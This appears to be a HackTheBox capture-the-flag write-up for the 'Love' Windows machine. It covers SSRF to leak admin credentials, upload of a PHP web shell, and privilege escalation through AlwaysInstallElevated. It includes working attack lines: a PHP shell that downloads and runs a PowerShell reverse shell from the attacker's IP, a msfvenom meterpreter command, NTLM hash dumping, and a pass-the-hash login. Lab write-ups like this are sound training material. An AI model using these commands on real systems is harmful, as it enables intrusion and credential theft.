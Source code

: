 ```yaml
---
title: Hackthebox - Love
date: 2021-06-28 00:00:00 +0530
categories: [hackthebox, windows]
tags: [file-upload, alwaysinstallelevated policy]     # TAG names should always be lowercase
image: /assets/img/posts/love/love_banner.png
---
```



![](/assets/img/posts/love/love_banner.png)



<p align="right">   <a href="https://www.hackthebox.eu/home/users/profile/391067" target="_blank"><img loading="lazy" alt="x00tex" src="https://www.hackthebox.eu/badge/image/391067"></a>
</p>

# Enumeration

**IP-ADDR:** 10.10.10.239 love.htb

**nmap scan:**
```bash
PORT      STATE SERVICE      VERSION
80/tcp    open  http         Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: Voting System using PHP
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
443/tcp   open  ssl/http     Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: 403 Forbidden
| ssl-cert: Subject: commonName=staging.love.htb/organizationName=ValentineCorp/stateOrProvinceName=m/countryName=in
| Not valid before: 2021-01-18T14:00:16
|_Not valid after:  2022-01-18T14:00:16
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
3306/tcp  open  mysql?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, HTTPOptions, Help, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, LPDString, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq: 
|_    Host '10.10.15.71' is not allowed to connect to this MariaDB server
5000/tcp  open  http         Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: 403 Forbidden
5040/tcp  open  unknown
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
5986/tcp  open  ssl/http     Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
| ssl-cert: Subject: commonName=LOVE
| Subject Alternative Name: DNS:LOVE, DNS:Love
| Not valid before: 2021-04-11T14:39:19
|_Not valid after:  2024-04-10T14:39:19
|_ssl-date: 2021-06-25T08:37:23+00:00; -5h04m42s from scanner time.
| tls-alpn: 
|_  http/1.1
7680/tcp  open  pando-pub?
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49668/tcp open  msrpc        Microsoft Windows RPC
49669/tcp open  msrpc        Microsoft Windows RPC
49670/tcp open  msrpc        Microsoft Windows RPC
1 service unrecognized
```

* Information leak from https ssl certificate. 
  * **Subdomain:** `staging.love.htb` 
  * **Username:** `roy@love.htb`
* No other subdomain found: `ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt:FUZZ -H 'Host: FUZZ.love.htb' -u http://love.htb/ -ac -c -v`
* port `5000` and `443` gives "403 Forbidden"
* Can't connect to SMB without password.

* **Host: `love.htb`** asking for username:password

  ![](/assets/img/posts/love/love.png)

* **Subdomain `staging.love.htb`** have signup option which don't go anywhere,

  ![](/assets/img/posts/love/staging-love.png)

but there is a `/beta.php` which allows to fetch urls, and also allows SSRF.

![](/assets/img/posts/love/demo-ssrf.png)

with that we can access to port `5000` and `443` which gives "403 Forbidden", because both are on save host.

port `443` https don't response anything but port `5000` response with admin creds.

![](/assets/img/posts/love/vote-admin-creds.png)
<!--admin:@LoveIsInTheAir!!!!-->

* successful login to `http://love.htb/admin` with found creds. *It was just a guess. If I don't get admin login in `/admin`, than I'll run gobuster.*

# Foothold

## File upload to RCE

Found file upload option in `/admin/voters.php` and `/admin/candidates.php`

Try to upload php shell from `/voters.php`
```php
<?php echo exec("whoami"); ?>
```

![](/assets/img/posts/love/file-uploading.png)

and file uploaded successfully without any restriction and upload file found in the `/images` directory

![](/assets/img/posts/love/file-uploaded.png)

![](/assets/img/posts/love/file-executed.png)

Getting reverse shell with [PayloadsAllTheThings powershell payload](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#powershell) and [nishang revshell ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1)

Create `shell.php`, which Invoke nishang revshell ps1 script from http server.
```bash
<?php echo exec("powershell IEX (New-Object Net.WebClient).DownloadString('http://10.10.15.71/powerShellTcp.ps1')"); ?>
```

upload `shell.php`, start http server and get reverse shell.

![](/assets/img/posts/love/web-shell.gif)

Get msf shell with msfvenom payload
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.15.71 LPORT=4141 -f psh -o msf_shell.ps1
```

Execute
```bash
IEX (New-Object Net.WebClient).DownloadString('http://10.10.15.71/msf_shell.ps1')
```

# Privesc

## abusing `AlwaysInstallElevated` policy

Running winpeas found **AlwaysInstallElevated** enable.

![](/assets/img/posts/love/winpeas.png)

**AlwaysInstallElevated** If these 2 registers are enabled (value is 0x1), then users of any privilege can install (execute) **`*.msi`** files as **`NT AUTHORITY\SYSTEM`**.
```bash
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

![](/assets/img/posts/love/always-install.png)

* Exploit from [hacktricks.xyz](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#alwaysinstallelevated)
* Multiple ways to exploit from [hackingarticles.in](https://www.hackingarticles.in/windows-privilege-escalation-alwaysinstallelevated/)


**Exploit with metasploit**
```bash
exploit/windows/local/always_install_elevated
```

![](/assets/img/posts/love/love-rooted.png)

**Dump NTLM hash**
```bash
meterpreter > load kiwi
meterpreter > lsa_dump_sam

RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: aab42ca009fed69fa5ee57c52cf5bcf1

#login with evil-winrm
evil-winrm -u Administrator -H aab42ca009fed69fa5ee57c52cf5bcf1 -i 10.10.10.239
```
